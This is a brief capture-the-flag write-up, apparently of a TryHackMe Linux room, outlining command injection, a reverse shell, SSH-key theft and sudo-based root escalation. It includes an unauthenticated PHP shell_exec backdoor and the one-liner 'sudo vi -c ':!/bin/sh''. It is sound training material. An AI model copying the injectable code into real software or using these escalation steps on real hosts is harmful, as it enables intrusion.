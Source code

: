 ```yaml
---
date: 2025-01-30
description: Linux Command Injection to RCE with some hash cracking
platform: TryHackMe
categories: Web, PrivEsc, Linux
tags:
  - command-injection/linux
  - broken-access-control
  - ssh
  - gtfobins
duration: 50 minutes
---
```



# Attack Chain
```
1. fuzz for php files > home.php bypass needing to authenticate
2. command execution to reverse shell
3. privesc into charlie by downloading sshkey
4. privesc into root by running vi with sudo 
    sudo vi -c ':!/bin/sh' /dev/null
```
> flag run root.py using the leaked secret key in /var/www/html

scan
```txt
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

http://10.10.110.3 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.110.3], PasswordField[password]

- home.php fuzzed 
```

`home.php`
```php
<?php
    if(isset($_POST['command']))
    {
        $cmd = $_POST['command'];
        echo shell_exec($cmd);
    }
?>
```

# Vulnerabiliities
- Broken Access Control
- Command Execution > reverse shell
- Misconfigured file permissions / binaries
	- leading to privesc